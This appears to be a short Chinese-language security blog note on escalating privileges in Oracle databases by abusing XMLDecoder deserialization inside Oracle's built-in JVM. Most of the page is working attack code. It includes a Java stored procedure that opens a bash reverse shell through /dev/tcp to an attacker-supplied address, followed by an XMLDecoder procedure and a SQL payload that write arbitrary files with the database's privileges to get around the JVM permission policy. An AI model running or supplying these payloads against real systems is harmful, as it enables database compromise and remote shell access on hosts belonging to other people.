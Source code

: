 ```yaml
---
title: "Oracle 提权-XML 反序列化"
author: ["4shen0ne"]
draft: false
---
```


Oracle 内置的 JVM 有默认的安全控制策略，直接用 `Runtime.exec()` 执行系统命令会报错。

比如：

```java
SET scan off

create or replace and compile java source named ReverseShell as
import java.io.*;
public class ReverseShell{
   public static void getConnection(String ip, String port) throws InterruptedException, IOException{
      Runtime r = Runtime.getRuntime();
      Process p = r.exec(new String[]{"/bin/bash","-c","0<&126-;exec 126<>/dev/tcp/" + ip + "/" + port + ";/bin/bash <&126 >&126 2>&126"});
      System.out.println(p.toString());
      p.waitFor();
   }
}

// then
create or replace procedure reverse_shell (p_ip IN VARCHAR2,p_port IN VARCHAR2)
IS language java name 'ReverseShell.getConnection(java.lang.String, java.lang.String)';
```

会触发以下错误：

{{< figure src="/ox-hugo/2021-07-28_10-31-01_java-reverse-shell-perm-error.png" >}}

但是可以利用 XMLDecoder，它在反序列化过程时可以绕过 JVM 的权限管理策略，向系统写入
任意文件。

```java
create or replace and compile java source named DecodeMe as
import java.io.*;
import java.beans.*;
public class DecodeMe{
    public static void input(String xml) throws InterruptedException, IOException {

      XMLDecoder decoder = new XMLDecoder ( new ByteArrayInputStream(xml.getBytes()));
      Object object = decoder.readObject();
      System.out.println(object.toString());
      decoder.close();

    }
}
;

// then
CREATE OR REPLACE PROCEDURE decodeme (p_xml IN VARCHAR2) IS
    language java name 'DecodeMe.input(java.lang.String)';
```

然后执行以下 SQL 语句：

```sql
BEGIN
   decodeme('
    <java class="java.beans.XMLDecoder" version="1.4.0" >
        <object class="java.io.FileWriter">
          <string>/tmp/PleaseDoNotWork.txt </string>
          <boolean>True</boolean>
          <void method="write">
              <string>Why for the love of god?</string>
          </void>
          <void method="close" />
        </object>
    </java>');
END;
```

将会以 Oracle 运行者的权限写入 PleaseDoNotWork.txt 文件。
